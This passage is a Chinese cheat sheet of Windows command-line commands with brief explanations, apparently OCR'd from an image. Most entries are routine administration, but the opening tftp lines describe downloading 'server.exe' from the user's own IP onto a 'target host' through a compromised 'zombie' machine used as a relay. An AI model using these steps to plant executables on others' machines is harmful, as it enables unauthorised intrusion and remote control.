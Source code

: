 　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

　　mem 查看cpu使用情况

　　attrib 文件名(目录名) 查看某文件（目录）的属性

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量

　　set 显示当前所有的环境变量

　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

　　pause 暂停批处理程序，并显示出：请按任意键继续....

　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）

　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

　　echo 信息 在屏幕上显示出信息

　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello

　　find 文件名 查找某文件

　　title 标题名字 更改CMD窗口标题名字

　　color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白

　　prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )

　　ver 在DOS窗口下显示版本信息

　　winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）

　　format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS

　　md　目录名 创建目录

　　replace 源文件　要替换文件的目录 替换文件
